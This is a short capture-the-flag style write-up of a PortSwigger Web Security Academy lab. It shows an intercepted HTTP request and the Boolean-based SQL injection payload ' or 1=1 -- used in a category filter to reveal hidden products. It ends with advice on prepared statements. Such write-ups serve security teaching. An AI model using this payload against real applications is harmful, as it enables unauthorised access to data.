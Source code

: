 
---

- 🎯 **Target:** SQL injection Lab - vulnerability in WHERE clause allowing retrieval of hidden data
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 10.05.2025

---

## 🔍 Intercepting request 

> I intercept the request in the product category filter in BurpSuite:

```http

GET /filter?category=Pets HTTP/2
Host: 0ad20070035e51de80f5531f000400cf.web-security-academy.net
Cookie: session=JwFMOw2KWBHSBohtlqtnlcSF1rm0vHQa
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad20070035e51de80f5531f000400cf.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> Need to force the application to display additional hidden products on the page.

> Testing SQL injection in the `category` parameter using a logical expression (Boolean-Based SQL injection):

```http

GET /filter?category=' or 1=1 -- HTTP/2

```

> **Result: display unreleased products**
![unreleased_product](./screenshots/unreleased_product.png)

> It's work.

> **Note** this works because `OR 1=1` always returns true; `--` symbol is used as a comment in SQL syntax. Anything after it is ignored.
> So it turns out that the logical expression with `or` in this case with `WHERE category = '' or 1=1` results in all rows from the `products` table being selected without filtering
> by category.

> **Result: solved lab**
![solved_lab](./screenshots/solved_lab.png)

## conclusion

> To protect against Boolean-Based SQL injection, you can use prepared statements. That is, instead of substituting data directly into the SQL string `"SELECT * FROM products WHERE category = '" + user_input + "'"`
> use `cursor.execute("SELECT * FROM products WHERE category = ?", (user_input,))`. This way, user input is not interpreted as part of the SQL query.

> You also need to escape the quote characters - `' '` and `" "` (but it is better to use parameterization).

